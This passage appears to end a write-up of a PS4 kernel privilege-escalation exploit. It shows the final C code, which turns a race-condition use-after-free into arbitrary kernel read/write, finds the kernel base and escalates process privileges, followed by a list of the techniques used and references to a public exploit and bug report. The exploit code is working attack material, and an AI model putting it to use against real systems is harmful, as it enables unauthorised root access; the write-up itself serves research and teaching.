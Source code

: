 ### Aand..... root!

And thats it! We can now gain r00t access in a PS4 system (well, an _unpatched_ PS4 system):
```c
victim_sock = spray_sock[idx];
  printf("[+] Victim socket: %x (%x)\n", victim_sock, idx);

  printf("[+] Arbitrary R/W achieved.\n");

  knote    = kread64(kevent_addr + kevent_sock * sizeof(uintptr_t));
  kn_fop   = kread64(knote + KNOTE_FOP_OFFSET);
  f_detach = kread64(kn_fop + FILTEROPS_DETACH_OFFSET);

  printf("[+] knote: 0x%lx\n", knote);
  printf("[+] kn_fop: 0x%lx\n", kn_fop);
  printf("[+] f_detach: 0x%lx\n", f_detach);

  printf("[+] Finding kernel base...\n");
  kernel_base = find_kernel_base(f_detach);
  printf("[+] Kernel base: 0x%lx\n", kernel_base);

  printf("[+] Finding process cred and fd...\n");
  find_proc_cred_and_fd(getpid());

  printf("[*] Escalating privileges...\n");
  escalate_privileges();

  printf("[*] Cleaning up...\n");
  cleanup();

  printf("[+] Done.\n");

  return 0;
```
# Interesting Techniques used
- A race condition in the kernel leading to a Use-After-Free bug.
- Building stronger primitives out of weaker ones.
- Spraying the heap with victim objects to speed up hitting the race condition.

# References
- [https://www.exploit-db.com/exploits/48644](https://www.exploit-db.com/exploits/48644)
- [https://hackerone.com/reports/826026](https://hackerone.com/reports/826026)
